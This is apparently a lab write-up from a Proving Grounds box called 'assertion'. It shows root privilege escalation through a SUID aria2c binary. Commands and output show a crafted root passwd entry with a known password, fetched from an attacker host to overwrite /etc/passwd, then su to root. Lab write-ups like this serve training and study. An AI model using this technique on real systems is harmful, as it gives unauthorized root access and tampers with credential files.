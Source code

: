 ```yaml
---
layout: default
title: Aria2c
parent: SUID
nav_order: 4
---
```


# Aria2c

---

## Check SUID Permissions

```bash
www-data@assertion:/dev/shm$ find / -perm -u=s -type f 2>/dev/null
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/snapd/snap-confine
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/bin/at
/usr/bin/aria2c
/usr/bin/newgrp
/usr/bin/newgidmap
```

_/usr/bin/aria2c_ is interesting.

We can use _aria2c_ to overwrite files we download from the attack machine.

Let's add a user to the /etc/passwd file on our attack machine and then upload to the target.

The following will add a root user with the password _i<3hacking_

```bash
evil:$1$/UTMXpPC$Wrv6PM4eRHhB1/m1P.t9l.:0:0:evil:/home/evil:/bin/bash
```

![evil](../../../../assets/images/ctfs/proving_grounds/assertion/evil.png)

Now move to the _/etc_ directory on the target and upload our malicious _passwd_ file

```bash
www-data@assertion:/etc$ aria2c -o passwd http://192.168.45.217:8000/passwd --allow-overwrite=true

11/17 02:51:11 [NOTICE] Downloading 1 item(s)
\
11/17 02:51:11 [NOTICE] Download complete: /etc/passwd

Download Results:
gid   |stat|avg speed  |path/URI
======+====+===========+=======================================================
87fe7c|OK  |        n/a|/etc/passwd

Status Legend:
(OK):download completed.


```

Now we can switch user's to our _evil_ user and get a root shell.

```bash
www-data@assertion:/etc$ su evil
Password:
root@assertion:/etc# id
uid=0(root) gid=0(root) groups=0(root)
root@assertion:/etc# whoami
root

```
